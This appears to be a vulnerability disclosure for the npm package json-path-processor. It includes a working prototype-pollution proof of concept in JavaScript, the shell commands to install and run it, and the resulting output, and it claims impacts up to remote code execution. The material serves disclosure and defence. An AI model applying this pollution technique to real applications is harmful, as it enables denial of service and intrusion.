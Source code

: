 # Description

`json-path-processor` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const jpp = require('json-path-processor')

console.log(`Before: ${{}.toString}`)
jpp(constructor.prototype).set('toString', 'function prototype polluted!')
console.log(`After: ${{}.toString}`)
```
2. Execute the following commands in the terminal:
```bash
npm i json-path-processor # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: function toString() { [native code] }
After: function prototype polluted!
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

